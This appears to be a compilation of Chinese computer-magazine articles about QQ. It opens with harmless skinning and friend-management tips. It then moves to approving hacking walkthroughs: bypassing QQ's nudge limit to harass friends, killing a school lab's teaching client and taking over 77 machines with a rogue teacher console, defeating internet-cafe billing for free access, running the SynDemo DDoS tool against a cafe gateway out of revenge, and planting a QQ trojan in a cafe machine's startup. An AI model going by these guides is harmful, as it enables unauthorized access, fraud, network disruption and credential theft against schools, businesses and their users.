下面打开第二款工具“通用文件打包解包”，找到桌面上的 QQ 快捷方式，属性→查找目标，再点向上一级，找到 Res.rdb，把它复制到桌面，以备恢复时的需要（做什么事情都要先备份^-^）。之后把 Res.rdb 载入到通用文件打包解包工具中，点击“解包”，如图11所示。


图10


图11


图8


图9


图12

下方显示了程序运行的过程，当文件被解压完毕以后，就会在 Res.rdb 所在的路径下生成一个文件夹，里边存放着 QQ 程序需要的一些图片，如图12所示。在这里我们不单单可以更换登录框的背景，还可以根据自己的需求自由替换小企鹅的其他部件。

进入到 Res/LoginPanel 文件夹，将事先准备好的三张图片 MiniLoginPanel_WinBkg.bmp、MiniLoginPanel_BtnBkg.bmp、MiniLoginPanel_DefaultBanner.bmp 一块复制进去。接下来把 MiniLoginPanel_DefaultBanner.bmp 复制到 \Res\AppFramework\LoginPanel 文件夹中，替换覆盖这些文件。我们再使用“通用文件打包解包”将文件打包回去，覆盖 QQ 目录的 Res.rdb，重新打开登录框，界面已经改变咯。


```xml
<String id="LoginPanel_More">
  更多
</String>
<String id="LoginPanel_Account">
  账号
</String>
<String id="LoginPanel_Password">
  密码
</String>
<String id="Product_Name" fmt="true">
  $__PNAME_V_SV$
</String>
<String id="MainFrame_Title" fmt="true">
  $__PNAME_V$
</String>
<String id="LoginPanel_SoftKeyboard">
  打开软键盘
</String>
<String id="SCANVIRUS_PROMPT_LINK_REINSTALL">
  重装QQ
</String>
```

### 五、抓起细节，接力QQ界面美化的文字修改

修改登录框的文字主要是通过修改 QQ 安装下的 PreLoadStringBundle.xml 这个文件来实现的。

> 小知识：XML（Extensible Markup Language）即“可扩展标记语言”，它与 HTML 一样，都是 SGML 的子集。XML 是 Internet 环境中跨平台的、依赖于内容的技术，是当前处理结构化文档信息的有力工具。XML 简单易学、便于扩展和使用。

它的作用可以用来丰富文件、描述数据、组态档案、描述软件的组态参数等。在系统中搜索 PreLoadStringBundle.xml 文件，右键以记事本的形式打开，会看到：

```xml
<String id="LoginPanel_NewAccount">
  注册新帐号
</String>
<String id="LoginPanel_DelAccount">
  删除帐号
</String>
<String id="LoginPanel_QQDoctor">
  查杀木马
</String>
```

我们此刻就可以对照自己登录框的各种文字提示来修改这里边的配置。我把“QQ帐号”“QQ密码”的文字做了修改，之后保存退出，效果图如图14所示。


其他的文字大家可以根据自己的喜爱来自由设置，不过要注意的是，此方法只适用于 QQ2010 以上的版本哦。

#### 六、化难为易，全套美化一步到位

首先我们来利用替换文件的方法，来学习如何简单地替换 QQ 全套的皮肤。可以用准备好的文件直接替换 QQ 安装目录下的同名文件，覆盖替换即可达到同样效果。

腾讯的默认界面是不是已经看腻了，大家看的是不是很心动呢？不要着急，我接下来就教大家如何实现这个效果，需要做的工作和前期要的工具图片我已经都做好了，如图17所示。


我以第二个类似非主流的效果来给大家讲解使用过程。图3中涉及到 2 个文件夹和一个 res.Rdb 文件与一张皮肤图片。首先我们将 res.Rdb 这个文件放至 QQ 安装目录（BIN 目录）的上级，直接覆盖即可，之后将 Misc 和 Themes 这两个文件夹也直接在这个目录覆盖。

要是大家还想恢复以前的面貌，所有覆盖文件要注意备份。最后我们要做的就是登录 QQ，将那张皮肤文件加载至 QQ 中。至此全套皮肤就替换完成了，所有涉及到的附件我会打包附带，大家是不是觉得很简单呢？

## 方便实用的“我的QQ中心”

QQ 好友一多，批量管理功能就显得很重要。而即使最新版的 QQ，某些批量管理功能不是根本没提供，就是不方便使用。比如 QQ 在 QQ2010 正式版 SP2 以前的版本中就没提供对好友群组“隐身可见”和“在线隐身”的批量管理功能。QQ 用的时间长了，很可能会产生单向好友，想找出这些“单向好友”，QQ 本身却没提供这个功能。想恢复以前删除的某个或某些好友，却不知道到哪里去恢复。你遇到过上面列举的类似问题吗？如果你遇到了，我有一个好消息要告诉你，最近腾讯推出了一个站点“我的QQ中心”，提供的功能正好可以解决上面的问题。

“我的QQ中心”包括“好友”“资料”“帐号”“动态”4 大功能模块。尽管目前“帐号”功能模块还没有上线，光“好友”模块下的功能就很让人惊喜，未开放的功能值得期待。

QQ“中心”的冲动了？先来看怎样进入“我的QQ中心”。如果你用的是最新或很新的 QQ 版本，比如 QQ2010 正式版 SP1，点击 QQ 软件的状态设置，在下拉菜单中选择“我的QQ中心”就可以进入了，如图1。进入“我的QQ中心”后默认打开的是“好友”子功能模块，如图2。如果你的 QQ 版本比较老，状态设置中的下拉菜单中没有“我的QQ中心”，这时你可以通过直接访问网址 http://id.qq.com/friends/，然后用你的 QQ 号码登录进入“我的QQ中心”。下面就来具体介绍它的几大方便实用功能。

#### 一、批量管理功能

在“我的QQ中心”的“好友”子功能模块中点击“全部好友”后面的向下或向上的三角，可以展开或收起您的 QQ 好友分组。


把鼠标放到一个好友分组的右面会出现实心的向下三角，点一下会出现分组管理的下拉菜单。通过下拉菜单提供的功能可以重命名或删除一个好友分组，更方便实用的是菜单中提供的“对该组隐身可见”和“对该组在线隐身”功能。在实际应用中，我们有时候可能需要在自己的 QQ 隐身时对某些 QQ 好友显示为在线，这样即使隐身也不会错过重要的人或事；现在你就可以把这些好友分到一个群组中，设置“对该组隐身可见”就可以了，不用一个个设置。


有些时候你可能需要对某些好友设置为在线时对他们显示为隐身，把需要对其隐身的好友分到一个分组中，然后设置“对该组在线隐身”就可以满足需求。另外说明一下，我记得以前“隐身对其可见”和“在线对其隐身”功能都是会员功能，至少在目前最新的 QQ2010 正式版 SP2 中已经向所有 QQ 用户开放了，赞一个。

#### 二、查找单向好友简单直观

单向好友就是你的 QQ 号码还在对方的 QQ 好友列表中，而对方的 QQ 号码却不在你的 QQ 好友中。产生单向好友主要有两个可能：一是对方获得您的同意添加了您，但您未添加对方为好友；二是你删除了对方，但未选择从对方列表中删除自己。现在好了，有了“我的QQ中心”中新增的“单向好友”管理功能，点击“我的QQ中心”的“好友”功能模块中的“单向好友”就会列出你的所有单向好友，并会在括号中提示单向好友的总个数。你可以对单向好友进行删除和添加到你的好友分组等操作，如图5。


#### 三、恢复删除的好友

如果您想恢复以前（不超过六个月）删除的 QQ 好友，在“我的QQ中心”中也非常方便。点“我的QQ中心”的“好友”子功能模块中的“好友恢复”，会看到“您可以选择恢复最近 6 个月主动删除的好友”的提示，并且会在括号中显示共有几个最近 6 个月主动删除的好友，如图6。点右面的“点击查看详情”链接，就会显示最近 6 个月主动删除的好友列表，在列表中还会显示好友删除的具体日期。如果要恢复哪个好友，点击要恢复好友右面的实体“+”号按钮，就可以重新添加对方为你的好友，如图7。


虽然“我的QQ中心”刚上线不久，有些功能还没有推出，仅凭现在已经推出的批量好友管理、查看单向好友和好友恢复功能，就非常值得一用。期待“我的QQ中心”推出更多好用功能。

## 对抗腾讯限制绞尽玩转QQ技巧四连发

hx小龙

#### 一、你的空间动画我来偷

看到这个小标题我想大家就会明白本文的主题。顾名思义，当我们在浏览好友 QQ 空间，或者看到腾讯为黄钻用户准备好的某个开场动画时，一定会被某些好的开场动画所吸引，或者是开场动画中的图片和背景音乐。那么我们要怎么将它们提取出来或者收藏到本地呢？其实这个过程很简单，只需要用到“硕思闪客精灵”这款 Flash 反编译工具；它不但能捕捉、反编译、查看和提取 Shockwave Flash 影片（.swf 和 .exe 格式文件），而且可以将 SWF 格式文件转化为 FLA 格式文件。硕思闪客精灵还提供了一个辅助工具——闪客名捕，它是一个 SWF 捕捉工具。当用户在 IE 浏览器或 Firefox 浏览器中浏览网页的同时，可以使用它来捕捉 Flash 动画并保存到本机。（如图1）


第一步先来安装“硕思闪客精灵”，过程一路下一步就好。安装到第六步的时候，选择“为 Firefox 安装 Flash 捕捉插件（闪客名捕）”这个复选框，如图2。接下来打开 QQ 空间，选择一个自己喜爱的开场动画，单击试用，让它在浏览器中播放一遍后，选择浏览器工具中的——硕思闪客名捕，如图3，在弹出的窗口中选择自己喜爱的资源并保存即可。


## QQ宝典

爱的那个Flash动画点击“Save”保存到本地，如图4。下一步打开“硕思闪客精灵”，导入刚才的Flash动画，在软件的右上角就可以看到组成该Flash动画的各种资源，如图5。这时只要在你想要导出的资源前面打勾就可以，当然也可以把整个Flash保存以后上传到自己的网络空间，获得一个属于这个Flash的地址，作为自己空间的动画；也可以使用 Flash 8.0 等软件，编辑跳转地址，作为自己Blog的开篇动画。用途还是很多的，就看我们怎么发挥了。


这些快捷键所达到的不同效果，可以在我们的使用过程中，随着自己的攻击意愿，更加方便地来改变当前的加减速。当然大家同时也可以使用鼠标来控制按钮，达到挪动，或者直接用鼠标移动变速条来控制变速。每当我们加减速一次，在软件的上方就会显示出一次当前的变速状态及倍数，如图8。好了，此刻我们把变速条移到最右边，也就是无限加速，再向对方发送窗口抖动，如图9所示，基本上就成为几秒一个或者每秒一个了。就这么简单的几步，就突破了腾讯的封锁，是不是很有趣？


#### 二、游戏变速=无限弹窗

QQ弹窗最初的设计用意是为了方便QQ用户之间的交谈。当好友忙碌无暇，我们却需要马上传递一个消息时，它通常才会派上用场。但是随着时间的推移，不知几时，它却成了我们娱乐来攻击网友的手段。于是乎，腾讯为了限制这一无聊的举动，便对一定时间内发送弹窗的数目做了一定的限制。当我们连续频繁对好友刻意发送弹窗时，就会出现如图6所示的提示。那么我们要怎么去突破它呢？方法很简单，只需要用到一款名字为“一流游戏变速器V0.3”的软件，它的界面如图7所示。使用方法很简单，可以使用键盘上的“左右”来操控，不同的组合键所达到的速度也不同，它们的值分别如下：

- Ctrl+左右键 = 2*0.001倍
- Shift+左右键 = 2*0.01倍
- 直接使用左右键 = 2*0.1倍
- Alt+左右键 = 2*0.5倍

### 三、QQ空间日志——我也要批量down

我想很多朋友们都和我有个共同点，就是变得很喜欢看QQ好友空间的日志。说实话，大家无论是转载的还是创作的，写的都很有感觉，有的可以说是生活中必备的佳句和精品，所以不经意间也就起了想要收藏的欲望。但是一篇两篇无所谓，面对N个好友的N篇日志，我就烦恼了。不过好在“月亮QQ空间日志下载器”这款软件，有了它，我的问题自然就会迎刃而解。

月亮QQ空间日志下载器可以将某个好友空间的QQ日志全部下载回本机，但是该QQ好友的QQ空间访问权限必须设置为“对所有QQ用户开放”，如图10。在“QQ号码”的输入框中输入要下载的QQ日志的QQ号，使用“浏览”功能，选择好对方QQ日志在本机保存的位置，如图11所示。接着点击“列出日志”，如图12所示，软件会罗列出日志的ID、发表时间和标题。之后点击“下载日志”按钮，程序就会开始下载，稍等一分钟就会下载完毕了。软件在电脑中会创建一个名字是对方QQ号码的目录，所有的日志会以文本形式保存，如图13所示。


图11


图12


图13

#### 四、突破绿钻特权——QQ音乐也要广告“剥”

如今广告可谓是数不胜数，连腾讯都开始到处张贴惹人讨厌的广告了。例如在我们的QQ对话框中，昨天无意中打开了QQ音乐，发现QQ音乐的界面中令我瞠视的广告居然神秘地不见了。我想了一下才明白过来，由于我是绿钻用户，所以拥有“播放器广告过滤”这个特权（如图14）。


图14

那么普通用户想要突破广告的封锁线，应该怎么去做呢？在不久以前QQ音乐发布了新的测试版本，正好借此机会，网上就出现了去除广告的最新补丁。新版的QQ音乐最大的改进就是改变了皮肤文件夹的位置：2009版中的QQ音乐皮肤默认保存于安装目录之下，而2010的皮肤则保存在了C盘。新补丁依旧是通过修改皮肤文件来“遮住”广告，Win7下测试没发现问题。如果大家打补丁后又下载使用了新皮肤，再次执行补丁即可去广告。


图15


图16

下面我们来看补丁的使用方法。点击“QQMusic2010 NoAD v1.1”这个程序进入主界面，如图15。程序会自动探测当前电脑中QQ音乐的安装目录，如果探测失败会报错，大家可以点击后边的按钮，自定义规划路径。路径选择完毕以后，点击“执行”就可以。如图16，点击确定程序就会自动退出，去除广告以后的效果如图17所示。图中可以看到这个号码并没有绿钻，但去除广告后的效果和绿钻贵族的效果相同。如果大家对去除广告后的界面感到不舒服，那么还可以使用这款软件恢复以前有广告的音乐界面，只要在界面上把“还原”的复选框勾上，之后执行就行了。


图17

（文章中所用到的硕思闪客精灵、QQ音乐去除广告软件、一流游戏变速器、月亮QQ空间日志下载器等，已经收录到了光盘中）

## 将QQ好友请到桌面上

菜青虫


图1

现在使用QQ主程序软件来聊天已经不是什么新鲜事，这次教大家怎么把经常联系的好友拽到桌面上，实现一键聊天的小方法。步骤很简单，按照下面的方法做就可以了。

- 1. 桌面空白处点击鼠标右键“新建”→“快捷方式”（如图1）。
- 2. 在跳出的“请输入项目位置”的地方输入：`tencent://message/?uin=123456789`，其中123456789处换成你的好友QQ号码（如图2）。然后点击下一步，再给这个快捷方式起个名字。
- 3. 完成后会在桌面见到（如图3）的可爱小图标，双击它就可以和TA聊天了。
- 4. 通过在图标上点击右键，还可以给这个可爱的小图标更换新的图标（如图4）。

（本文所涉及的代码已收录在光盘中）


图2


图3


图4

## “陌生人”请远离我的QQ

胖帅

QQ是中国几乎垄断的聊天软件，旗下QQ农场更是如火如荼。每当沉浸在农夫和偷菜这种乐趣的时候，看到QQ农场消息或者牧场消息出现以下画面，如图1，筒子们一定恼火了。起早贪黑、不辞劳苦辛种的菜就被这些“强盗”偷去了一大半。说强盗一点都不过火，因为他们不在我们的好友列表里面，却能偷我们的菜，还能做很多事。

关于陌生人如何删除、如何查找这个问题就一直困扰我们。无奈QQ以前删除好友或者陌生人的时候是直接拖到黑名单，或者别人加你好友的时候你直接点了接受，而没有加他。以至于有的人QQ上面有你，但是你QQ上没有他；或者你QQ列表里面有他们，他们列表里面有你，从而就能继续偷你的菜或者抢你的车位。这个问题腾讯也一直在研究、在解决。


图1

笔者今天就教筒子们如何清理这些“强盗”。相信筒子们可能知道某插件这个软件，没错，我们今天就需要使用到这个软件。读到这里有的筒子肯定在鄙视我了，我今天说的这个方法是用官方最新推出的“个人中心：http://id.qq.com/friends”系统和某插件这个软件互补，达到彻底清除陌生人的目的。……有个查看好友关系的功能，能够查看到你当前好友里面哪些好友已经把你删除了，也就是你的QQ上面有他，但是他的QQ上面没有你了。是不是好伤心？我们来删了他们！

首先安装……，直接去官方下载或者在本期光盘里面查找。安装完成后打开一个好友聊天窗，聊天窗口的最左下角会有两个字，一个“宝”字，一个“简”字，如图2。

打开之后在上面有“辅助”“设置”“统计”，进入统计之后刷新好友关系，如图3。

这里就可以看到哪些人已经删除了你，在该QQ上直接双击弹出QQ聊天对话框，然后点举报旁边的那个三角形，如图4、5，把“将我从对方的列表中删除”勾上。这是养成删除好友的习惯，以后删除好友都这样删除。没有这个功能的朋友去下载2010 SP1正式版。


图2


图3


图4


图5

通过这个方法就把自己QQ上的“好友”清理干净了。但是有的QQ上面有你，你又没有他，这种情况怎么删除呢？这次腾讯总算把问题解决了一下。在最新版本的QQ里面新增了一个功能，就是“我的个人中心”。点击设置在线状态的那个三角形，出来的菜单里面能进入我的个人中心，或者直接进入网站：http://id.qq.com/friends/index.html，如图6。

这个系统不仅可以用来恢复删除的好友，还能抓出你的单向好友。单击“单向好友”那个选项，然后全选他们，再移动好友到某个分组。


图6

## 360打造的超级外挂：扣扣保镖

天涯衰草

网络中很多用户和我一样，都喜欢使用一些QQ外挂，来增强QQ中的一些功能。可是很多用户又对这些外挂心有余悸，因为害怕这些外挂软件会窃取自己的账号密码。那么如果是安全公司推出的外挂软件又会怎样呢？最近360针对QQ软件，推出了一款全新的外挂软件——扣扣保镖。

#### 一、安全体检

首先从360的官方网站下载最新版本的“360扣扣保镖”，下载完成后并对其进行安装。第一次运行“360扣扣保镖”软件后，它会对系统中的QQ软件进行检测，检测的内容包括系统安全、QQ安全中心、阻止QQ扫描我的文件、清除QQ中的垃圾文件等。检测完成以后会告诉用户QQ存在哪些问题，点击每个检测项目后的操作按钮就可以进行对应的处理处置。如果用户想要快速修复QQ存在的这些问题，只需要点击主界面中的“一键修复”按钮就可以（如图1）。


图1

#### 二、功能屏蔽

当然如果不需要软件进行自动修复，还可以分别点击工具栏中的各个按钮，这样可以有针对性地进行操作。由于现在的QQ版本添加了很多功能插件，从而造成QQ软件的体积越来越大，并且占用系统中的资源情况也是越来越多的。为此我们可以点击工具栏中的“帮QQ加速”按钮，在弹出的窗口可以禁用一些不必要的功能插件。点击窗口下方的“一键优化”按钮，360扣扣保镖会自动禁用一些不常用的插件。当然用户也可以自己点击每个插件后的禁用按钮，来屏蔽那些自己已用不到的QQ功能插件（如图2）。


图2

#### 三、清除垃圾

QQ软件使用了一段时间以后，会在系统里面留下很多垃圾信息，比如软件的缓存信息、下载的广告信息，以及收到的各种各样的图片信息等等。现在点击工具栏中的“清QQ垃圾”按钮，在弹出的窗口中有很多和垃圾信息相关的选项。选择需要进行垃圾清理的选项后，点击窗口下方的“垃圾扫描”按钮后，360扣扣保镖就会对可能存在垃圾的目录进行扫描。需要注意的是，在扫描的时候不要选择那些还需要使用的选项内容。扫描完成以后点击“立即清理”按钮，就可以马上对扫描出来的垃圾信息进行删除（如图3）。


图3

#### 四、广告去除

QQ窗口里面闪烁不停的广告，一直就是网络用户声讨的对象，所以一直通过各种方式来进行屏蔽。现在利用扣扣保镖的“去QQ广告”功能，就可以将聊天窗口中的广告以及新闻窗口去除。点击工具栏中的“去QQ广告”按钮，在弹出的窗口选择要屏蔽的选项后，点击“过滤”按钮就可以对其进行过滤操作。如果窗口中所有的信息都不需要，那么直接点击窗口下方的“全部过滤”按钮，360扣扣保镖就会对这些选项进行过滤操作，这样用户再也看不到这些让人闹心的广告信息了（如图4）。


#### 五、安全保护

360扣扣保镖还提供了一些安全功能，比如点击工具栏中的“杀QQ木马”按钮，在弹出的窗口就可以利用相应的功能对系统进行扫描。不过要使用这个功能的话，需要首先安装360安全卫士，而这个功能也是通过安全卫士来实现操作的。而点击工具栏中的“保QQ安全”按钮，弹出窗口的“聊天工具保护”功能也是通过安全卫士来实现的。另外为了避免QQ软件的相关文件被感染或替换，点击“检测QQ完整性，避免QQ文件被感染”后的开启按钮，这样在QQ启动以后就会对其加载的相关模块进行分析扫描（如图5）。


#### 六、隐私保护

前段时间360推出了一款隐私保护器，主要是因为QQ会在系统后台扫描磁盘文件。虽然腾讯解释说这个是QQ医生在扫描病毒，但是很多用户还是不喜欢QQ的扫描操作。不过现在利用360扣扣保镖中的隐私保护功能，就可以杜绝QQ程序在系统后台的扫描操作。点击工具栏中的“隐私保护”按钮，在弹出的窗口点击“阻止QQ扫描我的文件”按钮（如图6）。这样在QQ重新启动以后，再也不会对磁盘中的文件进行扫描了。


（本文所涉及的软件扣扣保镖已收录在本期光盘中）

## 网吧黑客


### 学校机房里的“邪念”萌生记

自从学校里重装了系统后，就安装了一款名叫“Lan-Start8.0教育专版”的网络教学系统。每次上课时老师总会“屏幕广播”来控制我们的电脑，遇到这种情况，小菜我当然不愿意了，首先想到的就是要kill掉它。

自那以后，每次到机房上课时，我都会进行一番热身运动：选择“开始”→“运行”，输入“CMD”打开命令提示符，然后再输入执行 **taskkill /f /im lanclt.exe** 结束掉学生端的进程，或者使用360的结束进程功能来关闭掉学生端，以逃过老师的控制。久而久之，一次又一次的重复操作，不觉让我感到了厌烦。我心想：“为什么不来点更有意思的呢？”于是“邪恶”的念头就此产生了！看到这儿，可能有筒子要问了：“那个‘邪恶’的念头到底是什么呢？”嘿嘿，这个暂时保密，大家请继续往下看就会明白了！

为了达到“邪恶”的目的，我在上课时好好思考了一下“LanStart8.0教育专版”这款网络教学系统的工作原理，首先想到的就是它的连接方式。提到连接方式，我不禁联想到了“灰鸽子”这类远程控制软件。但是远程控制软件一般都默认采用“反弹连接”的方式来连接客户端程序，以达到主动上线的目的。相比之下，网络教学软件的连接方式就显得比较多了。因为同处在一个局域网内，IP地址都是固定的，其中就有一个是教师机，因此学生端完全可以直接连接到教师机。但是这样连接的话，不安全因素也很多，比如容易被发现，或者被老师端电脑上的防火墙拦截连接等等。而如果是自动获取IP地址的情况下（也就是设置的不是固定IP地址），学生端就要考虑其它的连接方式了。说到这儿我相信大家都猜到这个“邪恶”的念头是什么了吧，那就是“控制机房内所有的电脑”！

我们直接切入正题：本来我是想利用zxsarps欺骗网关来种木马，但是由于手头没有好用的网马，也就只好放弃了这个方法。既然机房内部安装有“LanStart8.0”的学生端，那为何不拿它来做点文章呢？

通过360安全卫士的网络连接查看功能，发现本机的 lanclt.exe（学生端）进程是向局域网中的每台电脑广播自己。等到教师机上线的时候，就自己来获取学生端的信息。那么，倘若我们在自己的电脑上也安装一个教师端会怎么样呢？嘿嘿，抱着试一试的心情我就从网上下载了“LanStart8.0教育专版”的教师端程序。接下来就是安装主控端了，这个大家都会，我就不多废话了。如图1，快安装完成的时候会出现一个设置初始密码的对话框，在这里我们随便输入即可，如图2。最后一步就会弹出提示窗口，要求我们重新启动电脑，如图3，我们选择不重新启动，然后注销一下系统就可以了。


激动人心的时刻终于来了，我们打开安装好的主控端，输入安装时设置的密码，选择好频道，如图4。因为我不知道老师使用的是哪个频道，所以就把所有的频道都选择了，嘿嘿。单击“确定”后，哇，一台、四台、十台……此时我感觉到浑身上下已经不由自主地颤抖起来，心跳也一直在加速，可能是有点儿太兴奋了，赶紧深呼吸一下。学生机以飞快的速度跑来上线了，直到最终的第77台来临，如图5。我随便找了一台电脑远程监控了一下，如图6，哈，还在QQ空间看相册呢！


图4


图5


图6

> （文章中所用到的LanStar8.0教育专用版已收录到光盘中）

此后，每当在机房上课时，我就增加了一个新的任务，就是关闭学生端的同时并安装一个主控端，等到老师关闭教师端的时候，就偷偷地打开自己的教师端。一只，两只，三只……嘿嘿，这些机器可以用来做什么呢？于是……自己是不是太“坏”了呢，嘿嘿！

## 破解恒信视讯一卡通 免费上网

我们这儿的网吧都统一换上了传说中的“恒信视讯一卡通”，如图1。像我这样每天都要坚持上几个小时的网，大把的RMB往外掏实在是不忍心啊，于是便决定破解掉它。我翻出以前的X档案，使用上面介绍过的破解网吧计费软件的一些软件和技巧试图去搞定“恒信视讯一卡通”，但遗憾的是都没有成功。该计费系统客户端的进程就有9个呢，如图2。结束掉其中的关键进程，它就会立即重启或直接关机。

经过我的“死缠烂打”，发现该计费系统的客户端居然还有个经典的输入法漏洞。我们打开一台电脑，来到登录界面，先在卡号处按 Ctrl+Shift 键切换到智能ABC输入法，再点击字母“v”，然后把“+Delete+Enter”三键同时按下，成功地进入了桌面。但大家也不要高兴得太早了，因为大约20秒后又会重新锁屏。


图1

## 网吧黑客

问题的关键就在于这大约20秒内，我们可以做很多事情。


我们打开U盘（开机时就插在电脑上了），双击运行事先准备好的软件——“遁影虚拟桌面”，如图3，随便选择一个上面的快捷键，我们进入一个新桌面。此时，默认的桌面已经锁屏了，但大家仍不能高兴得太早，因为10分钟后它将关机，这是一卡通的默认配置。我们接下来要做的才是本文的重点，就是阻止一卡通的关机！

在虚拟桌面中我们找到一卡通的安装目录“C:\Program Files\HChCard”下的SERVER文件，如图4，双击后选择打开方式，使用“记事本”打开文件，修改用户信息下的password以及HSP2的值都为“000000”，然后就可以“保存”退出了，如图5。


现在我们就可以使用空密码进入一卡通客户端进行参数设置了。在一卡通的安装目录下找到“set.exe”，或是选择“开始”→“程序”→“视频一卡通客户端”下的“参数设置”，如图6，然后直接点击确定就可以进入参数设置界面了，如图7。对于“常规设置”和“系统限制”这两项我们不用管，选择“系统参数”，把所有选项前面的勾都去掉，只保留第四项。“客户端网络通讯异常”处我们填写最大值120分钟，后面的操作仍然选择“锁屏”，然后点击“应用”和“确定”就行了，如图8。


按理说我们现在已经可以放心上网了，但事实上我在测试过程中却并非如此。虽然客户端的参数已经被我们更改了，不再关机，但是10分钟后主机那边仍然会发出关机命令将其关闭。难道我们就没有一款软件可以做到阻止程序关机吗？答案当然是肯定的！


拿出我的最终利器——“Windows 防锁专家 V1.2”。它的前身就是“超级防锁专家”（在X档案上曾经介绍过的），那是1.0版本，本文并不适用。在1.2版本中增加了“!HOOK Show-Window”和加载模块的功能，防锁功能更加强大了。

我们按 Ctrl+1 再次返回到默认的锁屏桌面，还是利用输入法漏洞进入桌面，快速运行我们准备好的“Windows 防锁专家 V1.2”，切换到“特殊功能”选项，点击“阻止所有程序的关机动作”下的“开始监视”按钮，弹出了一个监视成功的提示框，如图9。这时，锁屏界面不停地闪动，但任何程序的关机命令均不起作用了，当然也包括一卡通了。最后，我们再按快捷键返回到虚拟桌面就可以免费上网了。因为我们是在虚拟桌面里，为了不让巡逻的网管发现，大家还可以伪装一个一卡通的图标放在右下角的任务栏处。使用这种方法上网，因为我们没有破坏任何一卡通的相关进程或文件，所以主机那里也不会有任何提示（不用担心会被发现，除非网管挨个机号对照，那么大一个网吧谁会那么傻呢？），至此我们的破解圆满结束！

- 防锁专家必须在默认的桌面中运行。
- 如果运行防锁专家一会后弹出运行代码错误提示，则重新打开即可。
- 如果你想玩游戏的话，“游戏菜单”（即游戏管理软件，比如网维大师）在虚拟桌面打不开，因为在默认的桌面已经运行了。我们只需要把该软件进程结束掉，再重新打开就可以显示，或是直接到“我的电脑”里寻找你要玩的游戏。另：若利用输入法漏洞进入桌面操作时间不够，可先充值上机再完成上述步骤，然后再开一台电脑登录，结账下机即可，这样先前开的机子就可以免费上网了。


（文章中所用到的Windows防锁专家V1.2、遁影虚拟桌面已收录到光盘中）

## 网吧怎么了？就要毁了它！

网吧受到DDoS攻击或者是被ARP攻击，这是很常见的事情。由于技术人员对这方面的研究比较早，所以应对起来，有能力的网管还是可以有效避免的。而且经常看《黑客X档案》的朋友们，对于DDoS攻击和ARP攻击想必也都早已经玩到手软了吧。

话说这日，小菜我正在网吧坐着，突然警察叔叔来查网。无奈全网吧的顾客都被轰了出去，到吧台退钱居然还不给退。小菜我本来就是穷人一个，看着自己的上网费就这么白白没了，心里当然很不舒服。警察叔叔走后，大家仍旧返回到了网吧，但是这样不把消费者放在眼里的网吧，我又怎么能轻易就饶了它呢？想到我们这儿的网管技术普遍比较高，以前的攻击手段恐怕也是徒劳，弄不好还得把自己倒贴进去，于是我就使用了“SynDemo网吧DDoS攻击”。

大家肯定对于“SynDemo网吧DDoS攻击”不怎么了解。SynDemo不同于一般的攻击软件，该软件可以模拟内网真实机器的IP，对网关进行恶意的TCP-SYN半连接攻击，从而逐步达到使整个内网的计算机都无法正常上网。它的危害性之大在于：目前市场上的网络产品中，很少有能成功识别该类攻击并达到防御目的的网络设备。初次打开软件，其界面如图1所示。对于普通的DDoS攻击，一般我们只要使用具有安全功能的路由器、防火墙就可以有效阻止了，但是SynDemo这款软件的攻击原理与其它DDoS攻击软件不同。


它首先会判断攻击源所处的IP地址段，向内网广播该网段的ARP请求报文。当真实IP地址接收到相关ARP请求报文后，就会发送ARP应答报文。这样，软件就会获得在该网段内的真实IP与MAC对应关系，从而在攻击的时候骗取到网关的信任。然后SynDemo就会根据这些真实的IP信息，模拟真实的HTTP报文发给网关设备。当网关设备接收到这些疑似正常的报文后，就不会将这些合法报文丢弃了。此时SynDemo就会高密度地连续发送报文，使用数据包拦截器查看发送的数据，如图2所示。这些连续发送的数据包会导致在一定时间内网关设备的NAT状态表被这些看似合法的半连接堵塞，无法处理那些用于正常上网的数据包。至此我们的目的也就达到了，内网中所有机器的上网速度会越来越慢，最后整个内网的机器都无法正常上网。

下面我们来看如何使用SynDemo进行简单攻击。打开软件后，程序会自动探测到网卡。使用方法很简单：在“目标IP”处填写上你要攻击的IP，攻击端口填写80，攻击强度分为10个状态，分别是停止攻击、1到9强度和最大攻击，默认为最大限度的攻击。单击“攻击测试开始”按钮就可以进行攻击了，如图3。此刻我们在局域网内ping外网任意站点，已经产生了严重的丢包现象，如图4。我们不难发现，如果局域网内的交换机不具有完善的内网安全功能，便无法防御住此类攻击，那么SynDemo便攻击成功了。


> （文章中所用到的SynDemo攻击软件、PacketCapture13已收录到光盘中）

## 菜鸟与网吧的较决

自从上了大学以来，学习管理严格，没空上网，这个周末终于又有机会得以见到我久违的“老朋友”网吧了！几月不见，网吧居然都用上了pubwin4，据说山东省都是这一管理系统，这么一来，我们菜菜的免费上网梦不就从此破灭了吗？在“菜鸟精神”的支持下，我决定与pubwin4一争高下！

#### 一、初探虚实

先看一下pubwin4的特点，在未登录状态下有三个选项：用户登录、系统管理、版本信息（如图1）。可是没思路，登录进去看看吧。这时我注意到任务栏右下角有一红色图标，哈，原来是pubwin4的。此时计上心头，如果将这个软件结束掉，不就可免费上网了吗？于是打开任务管理器（还好没禁用，若禁用，可用精锐网吧辅助工具破解），在进程中找到pubwin.exe（如图2），结束。本以为大功告成，可谁知几分钟后又出来了，郁闷！毕竟是pubwin4，不是吃素的呀，第一天便无功而返。


#### 二、再度出击

第二天，我又来到了网吧，继续了前一天的“工程”。这次，我偶然发现通过pubwin面板上的“系统管理”可以管理pubwin4，那么破出它的密码不就可免费上网了吗？于是网上搜索一番，我找到了一款不可多得的东东，推荐给大家：pubwin4破解精灵（如图3）。启动时会有点慢，稍等片刻，然后点击“跳过密码验证-获取网吧管理密码”即可无需密码进入pubwin管理。


图3

然后右击任务栏pubwin图标选择系统设置，直接点确定进入管理（如图4），然后切换到系统参数，使用pubwin4破解精灵自带的星号密码查看器可很简单地查到网管密码（如图5）。有了密码，是不是免费上网变得如此简单了！


图5


图4

#### 三、换一种思维

前面所说的是借助软件破解，下面再给大家介绍一种简单的手工破解法。先进入控制面板（禁用的可用精锐网吧辅助工具破解），在用户账户中新建一账户，然后点开运行，输入“msconfig”（不带引号），切换到启动选项（如图6），点全部禁用，点确定。注意，这时候不要重启。然后注销，再进入新创建的账户，看看，是不是网管软件失效了。


图6

#### 四、顺手牵马

既然以前已经知道了pubwin4管理密码，我们不妨碰碰运气。如果还原卡密码和pubwin4密码一样，那么不就可以在网吧挂QQ木马了吗？从网吧老板的口中得知，该网吧用的是迅闪还原，哈，图标就在桌面上，太好了！（如图7）用pubwin密码一登，进去了！太兴奋了！！我立即从网盘将木马放入C盘启动中，点击转储，重启一遍，哈，成功了！system.exe成功存入了启动项！（如图8）


图7


图8

